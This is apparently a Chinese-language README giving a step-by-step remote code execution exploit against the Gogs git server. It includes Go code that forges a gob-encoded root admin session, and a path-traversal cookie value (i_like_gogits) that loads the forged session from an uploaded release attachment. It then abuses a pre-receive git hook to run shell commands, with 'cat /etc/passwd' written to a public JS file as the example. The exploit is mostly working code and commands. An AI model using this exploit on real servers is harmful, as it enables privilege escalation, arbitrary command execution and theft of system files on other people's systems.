# Gogs_RCE


## 0x01 前台注册普通账号

![](./test.jpg)

## 0x02 go 编译伪造管理员session

`go run main.go`

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data,0777)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}

```
![](./data.png)
会在当前目录生成data文件

```
root@kali:~/go/demo# cat readme.txt 
go run main.go 

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
root@kali:~/go/demo# cat data |xxd
00000000: 0eff 8104 0102 ff82 0001 1001 1000 005a  ...............Z
00000010: ff82 0003 0673 7472 696e 670c 0a00 085f  .....string...._
00000020: 6f6c 645f 7569 6406 7374 7269 6e67 0c03  old_uid.string..
00000030: 0001 3106 7374 7269 6e67 0c05 0003 7569  ..1.string....ui
00000040: 6405 696e 7436 3404 0200 0206 7374 7269  d.int64.....stri
00000050: 6e67 0c07 0005 756e 616d 6506 7374 7269  ng....uname.stri
00000060: 6e67 0c06 0004 726f 6f74                 ng....root
root@kali:~/go/demo# 

```

## 0x03 普通用户发布新版本

![](./new_release.png)

附件：
`http://10.20.24.189:18080/attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

设置cookie字段 i_like_gogits 为 新版本 文件路径，拼接前2个字母
例如：

`attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

`i_like_gogits=../attachments/c/5/c58bf501-7163-44a8-b77d-79c8396609bb`

## 0x04 页面刷新，变成root管理员账号
![](./cookie.png)

修改以后

![](./cookie-admin.png)

root账号

![](./root.png)

## 0x05 仓库设置，管理Git钩子， 钩子名称 pre-receive 

当服务器为linux平台时，直接写shell脚本，执行命令。

命令触发在仓库上传新文件后。


## 0x06 命令回显-管理面板-应用配置管理-静态文件根目录

通过静态文件根目录 得到绝对路径：
例如 
```
静态文件根目录    /app/gogs
```

shell 脚本内容：

`cat /etc/passwd > /app/gogs/public/js/1.js`

![](./git_bash.png)

网站路径：

`https://127.0.0.1:3000/js/1.js`


